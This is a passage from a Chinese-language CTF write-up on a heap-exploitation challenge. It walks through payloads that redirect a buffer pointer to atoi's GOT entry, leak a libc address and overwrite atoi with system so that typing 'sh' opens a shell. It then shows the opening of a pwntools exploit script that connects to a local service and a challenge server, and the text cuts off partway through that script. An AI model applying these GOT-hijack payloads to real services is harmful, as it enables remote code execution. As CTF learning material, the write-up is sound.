 重新 renew(small) 把 big_buf 指到 atoi 的 GOT entry 上，之後利用 wipe(big) 來 leak libc function address。

payload :

```python
payload = ""
payload += p64(atoi_got)
payload += p64(0x0)
payload += p64(0x6020c0) # address of big_buf
payload += p32(1) * 3
```

12. renew(small)
13. renew(big)

這裡在 renew 一次 small 設好 inuse bit

payload:

```python
payload = ""
payload += p64(atoi_got)
payload += p64(0x0)
payload += p64(0x6020c0)
payload += p32(1) * 3
```

接著 renew(big) 把 atoi GOT hijack 成 system

這樣在選單的地方不用輸入 1 or 2 or 3 直接輸入 `sh\x00`

就可以造成 `atoi('sh')` -> `system('sh')` 拿到 shell。

```python
#!/usr/bin/env python

from pwn import *

r = remote('127.0.0.1', 4000)
#r = remote('52.68.31.117', 9547)

secret_kind = {'small':'1', 'big':'2', 'huge':'3'}


#libc = ELF('libc.so.6')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
atoi_got = 0x602080
free_got = 0x602018
puts_plt = 0x400766

def keep(size, content):
    r.recvuntil('3. Renew secret\n')
    r.sendline('1')
    r.recvuntil('2. Big secret\n')
    r.sendline(secret_kind[size])
    r.recvuntil('Tell me your secret:')
    r.sendline(content)

def wipe(size):
    r.recvuntil('3. Renew secret\n')
    r.sendline('2')
    r.recvuntil('2. Big secret\n')
    r.sendline(secret_kind[size])

def renew(size, content):
    r.recvuntil('3. Renew secret\n')
    r.sendline('3')
    r.recvuntil('2. Big secret\n')
    r.sendline(secret_kind[size])
```